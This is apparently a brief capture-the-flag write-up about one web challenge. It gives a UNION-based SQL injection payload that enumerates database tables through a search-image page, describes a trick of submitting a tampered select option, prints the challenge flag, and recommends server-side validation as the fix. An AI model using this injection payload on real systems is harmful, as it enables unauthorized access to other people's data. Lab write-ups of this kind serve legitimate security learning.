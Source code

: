 # Where:
    /?page=searchimg
# How:
    -By entering
    *-1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()*
    -Change the value of 1 of the options to an invalid value.
    Or
    -Add an invalid option.
    -Select the invalid value
    -Receive the flag
# Flag:
    03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
    Store options server side/on backend.All user input should be sanitised and validated (backend).